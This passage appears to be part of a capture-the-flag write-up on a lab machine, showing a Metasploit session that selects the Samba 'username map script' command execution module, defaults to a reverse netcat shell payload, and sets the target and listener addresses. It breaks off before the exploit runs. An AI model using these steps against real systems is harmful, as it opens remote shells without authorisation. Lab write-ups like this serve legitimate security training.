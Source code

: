 Strangely enough, the description on the NVD website does not tell us which user the shell is as. So let's fire up Metasploit and just give it a try, we'll find out!

### With Metasploit

```
$ msfconsole

msf6 > search samba username map

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat

msf6 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                       /basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.102.181  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3

msf6 exploit(multi/samba/usermap_script) > set LHOST tun0
LHOST => 10.10.14.17

```
